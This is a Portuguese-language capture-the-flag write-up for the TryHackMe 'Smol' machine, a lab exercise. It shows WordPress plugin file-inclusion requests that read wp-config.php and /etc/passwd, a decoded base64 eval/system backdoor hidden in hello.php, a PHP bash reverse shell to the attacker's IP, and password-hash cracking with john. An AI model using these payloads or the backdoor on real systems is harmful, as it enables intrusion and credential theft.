





# Smol - TryHackMe (Medium)

**Autor:** Arthur Pinheiro
**Tags:** Wordpress, LFI, RCE
**Sumário:** Máquina Linux rodando uma aplicação Wordpress em cima de um webserver Apache.
Para pos-exploitation foi tirado vantagem de misconfigurations no servidor.

# Information Gathering

## Portscan com nmap

Executando um portscan rápido para verificar os serviços sendo executados no host.

```bash
┌──(kali㉿kali)-[~]
└─$ mkdir smol && cd smol
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ nmap -sS -Pn -F 10.10.121.36
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 17:50 EDT
Nmap scan report for 10.10.121.36
Host is up (0.21s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.07 seconds
  
  
```

Agora vou executar detecção de serviços e de SO e scripts NSE com a flag -A.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ nmap -sS -Pn -T4 -A -p22,80 10.10.121.36
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 17:51 EDT
Nmap scan report for 10.10.121.36
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9c:72:c6:e9:67:dc:bc:6d:d2:12:71:d0:6d:e5:60:de (RSA)
|   256 c8:08:68:0b:4b:65:83:1d:6a:b3:06:cd:84:8b:7e:44 (ECDSA)
|_  256 1b:09:07:56:a2:07:a0:bd:03:96:63:3f:b4:5f:d7:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://www.smol.thm
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   206.14 ms 10.23.0.1
2   207.12 ms 10.10.121.36

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.05 seconds

```

O log acima nos dá que a versão do servidor SSH é OpenSSH 8.2p1, o SO é Linux Ubuntu, a versão do Apache rodando na porta 80 é 2.4.41 e está redirecionando para o domínio http://www.smol.thm.
Sendo assim, vou colocar o endereço no meu servidor de nomes local. (no arquivo /etc/hosts)

```bash
┌──(root㉿kali)-[/home/kali/smol]
└─# echo "10.10.121.36    www.smol.thm" >> /etc/hosts

┌──(root㉿kali)-[/home/kali/smol]
└─# 

```


Ao acessar o endereço pelo navegador, vejo que aparentemente é uma webpage de cibersegurança.





Ao rodar o whatweb, pude ver que a webpage utiliza Wordpress 6.7.1

```bash
┌──(kali㉿kali)-[~/smol]
└─$ whatweb http://www.smol.thm/
http://www.smol.thm/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[admin@smol.thm], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.121.36], JQuery[3.7.1], MetaGenerator[WordPress 6.7.1], Script[importmap,module], Title[AnotherCTF], UncommonHeaders[link], WordPress[6.7.1]
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Procurei no *page source* da página e achei uma coisa interessante:

```html
<script src="[http://www.smol.thm/wp-content/plugins/jsmol2wp/JSmol.min.nojq.js?ver=14.1.7_2014.06.09](view-source:http://www.smol.thm/wp-content/plugins/jsmol2wp/JSmol.min.nojq.js?ver=14.1.7_2014.06.09)" id="jsmol.min.nojq-js"></script>
```

A página utiliza o plugin wordpress *jsmol2wp* que possui um cve reportado conforme podemos observar abaixo:




# Initial Access

A vulnerabilidade encontra-se no parâmetro query do arquivo JSmol2WP.php.
Sendo assim, nosso ponto de entrada é a seguinte url:

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=

A partir daqui podemos nos aproveitar da vulnerabilidade de *File Inclusion*.
Inicializei o Burp Suite para essa tarefa. Vou tentar ler o arquivo de configuração do wordpress (wp-config.php)




Para facilitar, resolvi fazer um curl para decodificar o base64 de uma vez.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ curl -s "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../../../wp-config.php" | base64 -d
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */


/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
base64: invalid input
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Assim ficou mais fácil... consegui a senha do wpuser: kbLSF2Vop#lw3rjDZ629\*Z%G.

Agora, posso enumerar usuários, lendo o arquivo /etc/passwd.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ curl -s "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd" | base64 -d
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
ssm-user:x:1004:1006::/home/ssm-user:/bin/sh
ubuntu:x:1005:1008:Ubuntu:/home/ubuntu:/bin/bash
base64: invalid input
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Do log acima, posso fazer um password spraying (utilizando a senha do banco) com os usuários gege, diego, think e xavi no SSH.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ vim users.txt      
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ hydra -L users.txt -p 'kbLSF2Vop#lw3rjDZ629*Z%G' ssh://10.10.121.36
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-17 18:39:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://10.10.121.36:22/
[ERROR] target ssh://10.10.121.36:22/ does not support password authentication (method reply 4).
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Aparentemente a autenticação por senha está desabilitada no servidor SSH. Sendo assim, o que me resta é logar no wordpress e tentar subir um reverse shell.


Ótimo! Consegui logar como wpuser, mas ele não tem acesso a editar tema. 
Tentei logar como admin com a mesma senha, mas não consegui.

Voltei ao painel administrativo com o usuário wpuser e, depois de algum tempo, verifiquei que havia uma página do admin com o título "Webmaster Tasks".



Tinha algumas recomendações de hardening, mas a primeira dizia para verificar o código fonte do plugin hello, dolly.
Após pesquisar sobre o plugin, verifiquei que é um plugin que exibe quotes da música "Hello, Dolly" do artista Louis Armstrong. Achei o código fonte no github do plugin e ele me pareceu muito simples e inofensivo, deixando muito pouco "espaço" para uma vulnerabilidade nativa. 

Sendo assim, procurei o arquivo hello.php dentro da pasta de plugins. Primeiro só usei o repeater do burp suite pra acelerar o processo de tentativa/erro. Em seguida, usei o curl para fazer a requisição e já decodificar o base64.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ curl -s "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../hello.php" | base64 -d 
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/

function hello_dolly_get_lyric() {
        /** These are the lyrics to Hello Dolly */
        $lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

        // Here we split it into lines.
        $lyrics = explode( "\n", $lyrics );

        // And then randomly choose a line.
        return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
}

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
        eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

        $chosen = hello_dolly_get_lyric();
        $lang   = '';
        if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
                $lang = ' lang="en"';
        }

        printf(
                '<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
                __( 'Quote from Hello Dolly song, by Jerry Herman:' ),
                $lang,
                $chosen
        );
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
        echo "
        <style type='text/css'>
        #dolly {
                float: right;
                padding: 5px 10px;
                margin: 0;
                font-size: 12px;
                line-height: 1.6666;
        }
        .rtl #dolly {
                float: left;
        }
        .block-editor-page #dolly {
                display: none;
        }
        @media screen and (max-width: 782px) {
                #dolly,
                .rtl #dolly {
                        float: none;
                        padding-left: 0;
                        padding-right: 0;
                }
        }
        </style>
        ";
}

add_action( 'admin_head', 'dolly_css' );
base64: invalid input
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$
```

A seguinte linha de código me chamou a atenção... me parece um base64 e esse base64 é executado como código php.

```javascript

eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Agora, vou decodificar esse base64.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }                                                                              
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Me parece um parâmetro que permite a execução de comandos no servidor. No parâmetro, os dois primeiros estão em octal e o terceiro em hexadecimal.

\143 de octal para string: c
\155 de octal para string: m
\x64 de hexa para string: d

Eu tenho que usar uma página que chame esse plugin, sendo assim, vou tentar com a */wp-admin/index.php*

Sendo assim, a url fica http://www.smol.thm/wp-admin/index.php?cmd=id




Agora é hora de criar um reverse shell. 
Tentei alguns reverse shells single-line, mas não deu certo. Tentei com python, php, nc e /dev/tcp, mas não consegui. 
Por fim, criei um arquivo reverse.php com o seguinte conteúdo e baixei o reverse com wget.

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
$ip = '10.23.176.32';
$port = 4444;
exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>
```


```bash
┌──(kali㉿kali)-[~/smol]
└─$ python3 -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.151.222 - - [18/Oct/2025 09:31:47] "GET /reverse.php HTTP/1.1" 200 -

```

Setei meu listener com netcat e consegui meu reverse shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444               
listening on [any] 4444 ...
connect to [10.23.176.32] from (UNKNOWN) [10.10.151.222] 43226
bash: cannot set terminal process group (769): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-151-222:/var/www/wordpress/wp-admin$
```

Agora é hora escalar privilégios.


# Privilege Escalation


Decidi verificar os serviços rodando no localhost

```bash
www-data@ip-10-10-151-222:/var/www/wordpress/wp-admin$ ss -tuln
Netid State  Recv-Q Send-Q      Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0      0           127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0      0      10.10.151.222%ens5:68           0.0.0.0:*            
tcp   LISTEN 0      70              127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0      4096        127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0      128               0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0      151             127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0      511                     *:80                 *:*            
tcp   LISTEN 0      128                  [::]:22              [::]:*            
<var/www/wordpress/wp-admin$
```

Tem alguns serviços rodando no localhost nas portas 33060 e 3306. Os dois são mysql. Sendo assim, vou tentar logar no mysql e verificar a senha do admin e demais usuários do wp.
Tentei conectar com o usuário www-data, mas recebi "Acesso negado".

Lembrei da pasta /opt que geralmente contém arquivos interessantes.

```bash
www-data@ip-10-10-151-222:/var/www/wordpress$ ls -la /opt
total 296
drwxr-xr-x  2 root root   4096 Mar 29  2024 .
drwxr-xr-x 18 root root   4096 Oct 18 13:06 ..
-rw-r--r--  1 root root 291970 Mar 29  2024 wp_backup.sql
```

Me parece bom. Vou transferir esse .sql pra minha máquina para verificação offline.

```bash
www-data@ip-10-10-151-222:/opt$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.23.176.32 - - [18/Oct/2025 13:57:56] "GET /wp_backup.sql HTTP/1.1" 200 -

```

Lendo o arquivo .sql, achei o insert na tabela wp_users.

```mysql
INSERT INTO `wp_users` VALUES (1,'admin','$P$Bvi8BHb84pjY/Kw0RWsOXUXsQ1aACL1','admin','admin@smol.thm','http://192.168.204.139','2023-08-16 06:58:30','',0,'admin'),(2,'wpuser','$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.','wp','wp@smol.thm','http://smol.thm','2023-08-16 11:04:07','',0,'wordpress user'),(3,'think','$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$BvcalhsCfVILp2SgttADny40mqJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');
```


Agora, posso usar o john ou o hashcat para tentar quebrar um ou mais hashes dessa tabela.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sandiegocalifornia (diego)     
hero_gege@hotmail.com (gege)
1g 0:00:10:06 20.68% (ETA: 11:10:13) 0.001647g/s 5236p/s 28352c/s 28352C/s tizzieandfrankie..tiyon nooner
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session aborted
                                                                                                                                                                    
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Consegui a senha dos usuários diego e gege. Vou tentar me autenticar com diego.

```bash
www-data@ip-10-10-151-222:/opt$ su diego
Password: 
diego@ip-10-10-151-222:~$ 

```

Consegui a primeira flag.

```bash
diego@ip-10-10-151-222:~$ ls -la
total 24
drwxr-x--- 2 diego internal 4096 Aug 18  2023 .
drwxr-xr-x 8 root  root     4096 Oct 18 13:06 ..
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 diego diego     220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 diego diego    3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 diego diego     807 Feb 25  2020 .profile
-rw-r--r-- 1 root  root       33 Aug 16  2023 user.txt
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@ip-10-10-151-222:~$ cat user.txt 
45edaec653ff9ee06236b7ce72b86963
diego@ip-10-10-151-222:~$ 

```

Após listar crontab e permissões sudo, resolvi procurar a pasta de outros usuários.

Eis o que eu achei.

```bash
diego@ip-10-10-151-222:/home/think$ ls -la
total 32
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 8 root  root     4096 Oct 18 13:06 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@ip-10-10-151-222:/home/think$ cd .ssh
diego@ip-10-10-151-222:/home/think/.ssh$ ls -la
total 20
drwxr-xr-x 2 think think    4096 Jun 21  2023 .
drwxr-x--- 5 think internal 4096 Jan 12  2024 ..
-rwxr-xr-x 1 think think     572 Jun 21  2023 authorized_keys
